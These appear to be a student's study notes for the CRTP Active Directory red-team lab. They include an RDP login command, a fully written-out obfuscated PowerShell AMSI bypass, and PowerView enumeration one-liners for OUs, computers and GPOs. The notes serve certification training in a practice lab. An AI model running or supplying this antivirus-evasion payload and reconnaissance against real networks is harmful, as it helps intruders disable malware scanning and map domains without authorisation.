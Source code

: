 CRTP Notes  
Lab  
In Scope:

-   172.16.1.0/24 – 172.16.17.0/

# RDP into student VM

```
xfreerdp /u:student27 /p:<password> /v:172.16.100.27 /dynamic-resolution
```

# AMSI Bypass
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

# Import PowerView
```powershell
Import-Module PowerView.ps1
```

# Learning Objective 1 

#### Enumerate the following for the dollarcorp domain:

- Users
- Computers
- Domain Administrators
- Enterprise Administrators
- Shares

# Learning Objective 2

#### Enumerate following for the dollarcorp domain:
- List all the OUs
- List all the computers in the StudentMachines OU.
	- `Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}`
- List the GPOs
- Enumerate GPO applied on the StudentMachines OU.`
	- `Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_} | %{Get-NetGPO -ComputerName $_}`

# Import AD Module
```powershell
PS C:\AD\Tools\ADModule-master\ActiveDirectory> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
PS C:\AD\Tools\ADModule-master\ActiveDirectory> Import-Module .\ActiveDirectory.psd1
```
